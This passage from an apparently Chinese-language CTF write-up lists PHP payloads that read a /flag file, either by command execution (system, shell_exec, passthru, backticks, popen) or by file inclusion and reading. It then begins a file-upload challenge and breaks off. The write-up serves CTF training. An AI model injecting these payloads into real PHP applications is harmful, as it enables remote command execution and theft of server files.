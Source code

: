 * `system('cat /flag');`
* `echo shell_exec('cat /flag');`
* `echo exec('cat /flag');`
* `passthru('cat /flag');`
* ``echo `cat /flag` ``
* `echo fread(popen('cat /flag',"r"),256);`

**文件读取**：

* `include('/flag');`
* `require('/flag');`
* `include_once('/flag');`
* `require_once('/flag');`
* `show_source('/flag');`
* `highlight_file('/flag');`
* `echo fread(fopen('/flag','r'),256);`
* `echo file_get_contents('/flag');`
* `readfile('/flag');`

#### 总结

* 命令执行（RCE）
	* 简单命令执行



### [科电院文件存储系统](https://www.nssctf.cn/team/problem/6244)

#### 题目描述

尽情地在这个新系统存储你的文件吧~

#### 解题思路

![image-20241216172836691](BestiCTF S1 Week14.assets/image-20241216172836691.png)

打开网站，是一个上传文件的网页，编程语言是 PHP：
